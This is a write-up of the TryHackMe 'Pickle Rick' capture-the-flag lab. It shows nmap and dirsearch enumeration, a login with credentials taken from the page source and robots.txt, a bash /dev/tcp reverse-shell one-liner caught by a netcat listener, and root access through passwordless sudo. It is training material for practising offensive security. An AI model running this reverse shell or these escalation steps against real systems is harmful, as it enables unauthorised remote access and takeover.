








# TryHackMe Pickle Rick


## Scanning & Enumeration :

> A good rule of thumb is to start by scanning your machine for any open ports.

command:

```apache
nmap -sCV 10.10.66.88
```



* Port 22- ssh

Here we are able to see that our SSH port is open. This port isn't too vulnerable unless we have found someones credentials. Se we will not mess with it.

* Port 80- http

It is here were we find a webservice. Lets poke around and see if there is anyting interesting.


Great it looks like in source coude we have found a user name. Lets take note of that and keep digging, maybe we will get lucky and find the password.



---

## Brute force directories :

> We are going to be using dirsearch to try and locate any directories that may have been hidden from us.
> Command:

```apache
dirsearch -u http://10.10.66.88 -w /usr/share/wordlists/rockyou.txt
```



we have to directories imported :

1. /robots.txt ---> we found a password
2. /login.php

How about we go and check out the login.php.



Nom Let's entrer The USERNAME and PASSWORD we found !!

---

# Login :

> I try put command [`ls -la`] i got these Files and Directory ,So we conclude that there is Command Execution.



> In this case we will put REVERSHELL and SPY by Tool NETCAT

* REVERSHELL -->

```apache
bash -c 'exec bash -i &>/dev/tcp/IP-HOST/1337 <&1'
```

* NETCAT -->

```apache
nc -nlvp 1337
```



Finally we got a SHELL , and we found there a file named ~~``Sup3rS3cretPickl3Ingred.txt``~~ it has FLAG1.

---

> Always when we become SHELL we go to Path " /home " To know the user .


> We found a file name "second ingredients" .if you try read to file by "``cat second ingredients`` " you will get ***ERROR* **,because name file is 1 name but ***intermittent* **.

* ***So you should write command :*** ``cat *``

---

# Root :

In order to get root we must try what we know about ***privilege escalation .***

* > i try put command (``sudo -l``) ,and we found this :
  >



we have NOPASSWORD EVERYTHING ,So let's Try command :

```apache
sudo su
```



*Finally ,we finished this Machine.*

# Congratulations!!
